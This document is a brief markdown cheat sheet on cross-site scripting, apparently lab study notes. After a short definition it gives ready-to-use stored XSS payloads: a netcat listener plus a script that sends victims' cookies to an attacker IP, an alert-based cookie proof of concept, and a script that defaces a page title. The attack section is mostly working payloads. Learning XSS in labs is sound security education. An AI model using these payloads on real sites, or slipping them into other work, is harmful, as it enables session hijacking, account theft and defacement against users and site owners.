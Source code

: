 # XSS
## Basics 
- Cross-site scripting (XSS) is a security vulnerability typically found in web applications. Its a type of injection which can allow an attacker to execute malicious scripts and have it execute on a victims machine.
- A web application is vulnerable to XSS if it uses unsanitized user input. XSS is possible in Javascript, VBScript, Flash and CSS.

## Stored XX
### Chat Room XSS
- Start a netcat listener on your attack box
````
nc -nlvp 4444
````
- Take this XSS payload and paste it in the chat room and submit:
````
<script>window.location='http://10.13.**.**:4444/?cookie='+document.cookie</script>
````
- Note: Send the payload and then open the listener 
## Stored XSS Payloads
- Stored XSS pop up to display your cookies, good for a POC
````
<script>alert(document.cookie)</script>
````
- Adding HTML to a website
````
<title>Example document: XSS Doc</title>
````
- Deface website title. You will need inspect element and find the name of the element you want to change. `thm-title` is the element name in this example.
````
<script>document.getElementById('thm-title').innerHTML="I am a hacker"</script>
````


























































